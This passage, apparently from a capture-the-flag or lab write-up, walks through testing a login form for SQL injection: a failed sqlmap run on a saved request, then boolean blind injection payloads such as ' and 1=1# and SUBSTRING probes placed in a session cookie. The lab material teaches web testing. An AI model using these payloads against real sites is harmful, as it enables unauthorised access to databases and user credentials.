 (don't do like me, remove the encoded request, come back to &#x20;

`username=jeremy&password=jeremy`)&#x20;

and then let's call the SQLMap tool:

```
┌──(root㉿kali)-[/home/kali/Desktop/labs]
└─# sqlmap -r req.txt
```

and we get:

```
[10:26:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
[10:26:45] [WARNING] POST parameter 'password' does not seem to be injectable
[10:26:45] [CRITICAL] all tested parameters do not appear to be injectable. 
Try to increase values for '--level'/'--risk' options if you wish to perform more tests. 
If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'                                      
```

So no injectables.

Let's look back at the request,&#x20;

* There's a request containing a `Cookie` header with a specific `session` value: `6967cabefd763ac1a1a88e11159957db`.
* The content length of the response is initially observed as 1221

**SQL Injection Attempt with True Condition:**

* An attempt is made to inject SQL code into the cookie to check if the server is vulnerable.
* The injected payload is `' and 1=1#`, making the condition always true.
* After changing the cookie, the content length remains at 1221, indicating a successful SQL injection.

```
Cookie: session=6967cabefd763ac1a1a88e11159957db' and 1=1#
```

Now we are going to test one by one the characters to ask yes or no questions to the server like 'is the first character a, b ,c etc and get a yes or no response. We are going to use SQL's substring function:&#x20;

```
SUBSTRING(string, start, length)
```

{% embed url="https://www.w3schools.com/sql/func_sqlserver_substring.asp" %}

**Testing Characters Using SQL Substring Function:**

* The goal is to extract information character by character using SQL's `SUBSTRING` function.
* The initial test uses the payload `' and substring('a', 1, 1) = 'a'#`.
  * This asks the server if the first character of some string (in this case, 'a') is equal to 'a'.
  * The content length remains the same (1221), indicating success, but no useful information is extracted.
